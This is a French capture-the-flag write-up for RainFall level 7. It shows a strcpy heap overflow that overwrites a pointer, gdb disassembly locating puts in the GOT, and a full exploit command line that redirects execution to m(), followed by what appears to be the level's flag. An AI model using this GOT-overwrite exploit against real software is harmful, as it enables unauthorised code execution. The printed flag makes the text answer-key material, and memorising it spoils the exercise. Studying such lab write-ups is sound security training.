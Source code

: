 # Level 07

- Dans le code un faille est visible quand on essaye met des argument trop long:
```
strcpy(i1->name, argv[1]);
printf("addr: %p\n", i2->name);
strcpy(i2->name, argv[2]);
# on rajoute un printf dans le code et on compile
```
- en le lancant on voit que le premiere argument overwrite l'addresse de i2->name se qui fait qu'on peut ecrire n'importe ou dans la memoire
```
./a.out AAAABBBBCCCCDDDDEEEEFFFF 1111122223333
addr: 0x46464646 # ascii for FFFF
Segmentation fault
```
- on peut voir qu'on peut ecrire dans le [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table)
```
Il fait correspondre les symboles du code de programmation à leurs adresses mémoire absolues correspondantes pour faciliter le code indépendant de la position (PIC) et les exécutables indépendants de la position qui sont chargés à une adresse mémoire différente chaque fois que le programme est lancé.
```
<pre>
gdb-peda$ disass main
   0x080485f7 <+214>:   call   <strong>0x8048400</strong> <puts@plt>
   0x080485fc <+219>:   mov    eax,0x0
   0x08048601 <+224>:   leave  
   0x08048602 <+225>:   ret    
End of assembler dump.
gdb-peda$ disass 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     <strong>jmp    DWORD PTR ds:0x8049928</strong>
   0x08048406 <+6>:     push   0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
gdb-peda$ x 0x8048400
<strong>0x8048400 <puts@plt>:   0x992825ff</strong>
</pre>
- Il suffit donc d'ecrire par dessus cet adresse pour qu'un jump soit fait vers la fonction m()
```
level7@RainFall:~$ ./level7 `/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08"` `/bin/echo -ne "\xf4\x84\x04\x08"`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1631281606
```
